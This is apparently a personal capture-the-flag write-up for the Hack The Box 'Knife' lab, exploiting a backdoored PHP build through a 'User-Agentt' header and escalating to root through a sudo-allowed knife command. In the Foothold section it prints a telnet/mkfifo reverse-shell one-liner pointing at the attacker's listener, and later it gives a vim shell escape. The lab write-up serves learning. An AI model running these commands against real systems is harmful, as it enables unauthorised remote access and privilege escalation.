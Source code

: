 #CTF/HTB/Linux/Easy

# Given

Knife is an easy difficulty Linux machine that features an application which is running on a backdoored version of PHP. This vulnerability is leveraged to obtain the foothold on the server. A sudo misconfiguration is then exploited to gain a root shell.

## IP

10.10.10.242

# Writeup

## Enumeration

I started with running Rustscan really quick to see what ports were open. I also had a full Nmap scan running in the background. I got two open ports:

- SSH(22)
- HTTP(80)

I started looking at port 80. It seemed to be a Linux based web server running `Apache/2.4.41 (Ubuntu)`. There's a website on it called `Emergent Medical Idea`.

There weren't any creds left behind in the source code, nor were there any working links. I started looking at the tech stack before going ahead with any sort of directory busting.

![](Assets/Pasted%20image%2020250711095943.png)

Aside from the version of Apache and what type of server this was, I got the technology the site was based on and version:

- PHP 8.1.0-dev

## Exploit

I ran this through `searchsploit` and got a hit on a Remote Code Execution vulnerability.

![](Assets/Pasted%20image%2020250711100152.png)

** Check out the details of the vulnerability on [exploitdb](https://www.exploit-db.com/exploits/49933)

## Foothold

Reading through the python script, it seemed use an additional request header called `User Agentt` to inject commands to the web server.

![](Assets/Pasted%20image%2020250711113836.png)

![](Assets/Pasted%20image%2020250711102856.png)

This isn't a proper shell though, so I had to create a reverse shell to my machine. I used [revshells](www.revshells.com) to generate a telnet based script and have it connect to my netcat listener.

```shell
TF=$(mktemp -u);mkfifo $TF && telnet 10.10.16.2 4443 0<$TF | sh 1>$TF
```

This got me a basic shell onto the web server. I then had to upgrade it.

The user flag is in james's home directory

![](Assets/Pasted%20image%2020250711103147.png)

## Privilege Escalation

Now that I was in the web server as `james` I needed to escalate my privileges to get to `root`. I started with checking james's permissions on the server with `sudo -l`. This shows that james can run a script as root

![](Assets/Pasted%20image%2020250711103220.png)

I tried to add code to the file `knife`, and tried to replace it. Those didnt really work. So I had to google what knife was (and I tried hard to not look at writeups). I looked through gtfobins, found knife, and a simple way to escalate my privileges on this machine.

![](Assets/Pasted%20image%2020250711111918.png)

This got my shell upgraded to root, and I proceeded to get the flag in the home directory.

![](Assets/Pasted%20image%2020250711112110.png)

# Extra Notes

What if GTFO bins didn't have a privesc for Knife?

I first would need to know what knife is in the first place. Googling this got me [here](https://docs.chef.io/workstation/knife_setup/). TLDR: Knife is a command line utility that was created to communicate with Chef, which is a basically an automation platform.

## VIM Escape

The `knife data bag` subcommand allows users to interact with global variables as JSON objects.

I looked through the knife docs, and tried to create a bag, which I could hopefully edit with vim later. That didn't really work. 

![](Assets/Pasted%20image%2020250711120321.png)

So I tried to get the same command into vim like 0xdf does in his walkthrough, that didn't work either despite me restarting the server. 

Ideally, we should be able to edit the file on vim, and then run commands through vim's command line by running

```shell
!/bin/bash
```

# References

[0xdf - knife](https://0xdf.gitlab.io/2021/08/28/htb-knife.html#shell-as-root)